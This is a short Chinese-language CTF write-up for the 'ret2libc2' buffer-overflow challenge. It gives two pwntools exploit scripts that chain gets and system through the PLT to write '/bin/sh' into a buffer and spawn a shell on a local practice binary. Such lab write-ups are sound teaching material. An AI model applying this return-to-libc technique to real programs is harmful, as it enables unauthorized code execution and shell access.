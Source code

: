 # ret2libc2

这题与ret2libc1差不多，只是没有/bin/sh 字符串，所以需要我们自己写入

Exp：

```python
from pwn import *
io = process("./ret2libc2")
elf = ELF("./ret2libc2")
buf2 = elf.symbols["buf2"]
gets_plt = elf.plt["gets"]
system_plt = elf.plt["system"]

payload = b'a'*112 + p32(gets_plt) + p32(system_plt) +p32(buf2) +p32(buf2)
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```

![1](C:\Users\86177\Desktop\PWN\retlibc\ret2libc2\1.png)

当然，exp也可以这样写：

```python
from pwn import *
io = process("./ret2libc2")
elf = ELF("./ret2libc2")
buf2 = elf.symbols["buf2"]
gets_plt = elf.plt["gets"]
system_plt = elf.plt["system"]
pop_ret = 0x0804843d
payload = b'a'*112 + p32(gets_plt) + p32(pop_ret) +p32(buf2)+ p32(system_plt)+  p32(0xdeadbeef)+p32(buf2) 
io.sendline(payload)
io.sendline("/bin/sh")
io.interactive()
```

